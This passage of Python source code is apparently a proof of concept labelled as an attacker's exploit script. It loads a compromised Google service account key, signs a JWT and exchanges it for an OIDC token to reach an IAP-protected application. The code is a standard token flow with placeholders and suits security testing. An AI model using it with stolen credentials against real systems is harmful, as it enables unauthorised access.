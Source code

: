         # --- Attacker's Exploit Script ---

        # 1. Load compromised service account credentials (attacker has obtained this file)
        credentials_file_path = "google-serviceaccount-creds.json" # Path to the compromised credentials file
        try:
            with open(credentials_file_path, "r") as f:
                service_account_secret_dict = json.load(f)
        except FileNotFoundError:
            print(f"[ERROR] Credentials file not found at: {credentials_file_path}. Please ensure the file exists for the test.")
            exit(1)

        # 2. Attacker knows the IAP Client ID of the target application (can be obtained through reconnaissance)
        target_iap_client_id = "YOUR_IAP_CLIENT_ID"  # Replace with a valid IAP client ID for a real test, or use a placeholder for local testing.
        oauth_token_uri="https://www.googleapis.com/oauth2/v4/token"
        jwt_bearer_token_grant_type="urn:ietf:params:oauth:grant-type:jwt-bearer"


        # 3. Replicate JWT Assertion generation (similar to requests-iap library)
        def get_jwt_assertion(service_account_secret_dict, client_id, oauth_token_uri):
            message = {
                "kid": service_account_secret_dict["private_key_id"],
                "iss": service_account_secret_dict["client_email"],
                "sub": service_account_secret_dict["client_email"],
                "aud": oauth_token_uri,
                "iat": int(time.time()),
                "exp": int(time.time()) + 60 * 60,
                "target_audience": client_id,
            }
            return jwt.encode(
                message,
                load_pem_private_key(
                    jwt.utils.force_bytes(service_account_secret_dict["private_key"]),
                    password=None,
                    backend=default_backend(),
                ),
                algorithm="RS256",
            )

        # 4. Exchange JWT for OIDC token
        def get_google_open_id_connect_token(jwt_assertion, oauth_token_uri, jwt_bearer_token_grant_type):
            r = requests.post(
                oauth_token_uri,
                timeout=4,
                data={
                    "assertion": jwt_assertion,
                    "grant_type": jwt_bearer_token_grant_type,
                },
            )
            r.raise_for_status()
            return r.json()["id_token"]
